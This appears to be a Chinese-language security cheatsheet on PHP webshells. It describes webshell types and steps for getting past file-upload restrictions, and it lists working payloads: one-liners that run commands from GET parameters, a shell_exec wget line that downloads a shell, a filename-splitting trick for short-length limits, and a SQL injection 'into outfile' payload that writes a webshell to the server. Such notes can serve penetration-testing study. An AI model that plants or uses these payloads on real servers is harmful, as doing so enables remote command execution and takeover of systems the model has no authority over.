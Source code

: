 ## Webshell
一種以網頁形式存在的命令執行環境，也稱作**網頁後門**。  
黑客可以通過瀏覽自己放的後門，得到一個shell以操控伺服器。  
1. 大馬  
程式較龐大，調用system func()，通常會以加密隱藏代碼。   
2. 小馬  
程式小巧   
3. 一句話木馬  
一段小代碼，可做插入，變化多樣。  

### How works
我們可以通過網站自帶的文件上傳功能將webshell送上去，而文件裡的代碼由server解析進一步執行!  
1. 尋找上傳點   
* echo 一個shell到文件中執行  
* 下載 shell  
2. 繞過上傳限制 進行上傳  
* 直接上傳  
* 繞過client端  
* 繞過server端文件類型限制  
* 繞過mime類型  
* 繞過文件類型檢測  
* 過濾不全   
   
### Webshell cheatsheet
```php
<?php system('ls'); ?>
<?php system(ls); ?>
<?php system($_GET['cmd']); ?>
<?php system($_GET[1]); ?>
<?=`$_GET[1]`;                   // <?= is used to shorten the <?php echo `blah`;
<?php shell_exec('echo 1>1');        // 1=echo 1>1
<?php shell_exec('>1');            // 1=>1
<?php shell_exec('wget url -O 1.php');    // download shell

// 長度限制 
// 思路1:
// 將cmd分開變成檔名 -> 將ls -t的結果保存在sh檔 -> sh ./file
// reference: 七字短shell
>wge\\
>t\ \\       // 換行符不會影響命令執行, 空白 特殊符號就用\\轉譯
```
[system v.s. exec v.s. shell_exec](https://blog.longwin.com.tw/2013/06/php-system-exec-shell_exec-diff-2013/)  

### SQL inj to webshell
MYSQL:  
```
select into outfile(dumpfile)  // mysql write to document
```  
E.G.  
```  
union select 1,2,"<? system($_GET['fuck']) ?>" into outfile "://path"
```

### Ref  
* [千变万化的WebShell-Seebug](https://paper.seebug.org/36/)
* [七字短shell](http://wonderkun.cc/index.html/?p=524%EF%BC%88%E9%80%9A%E8%BF%87)
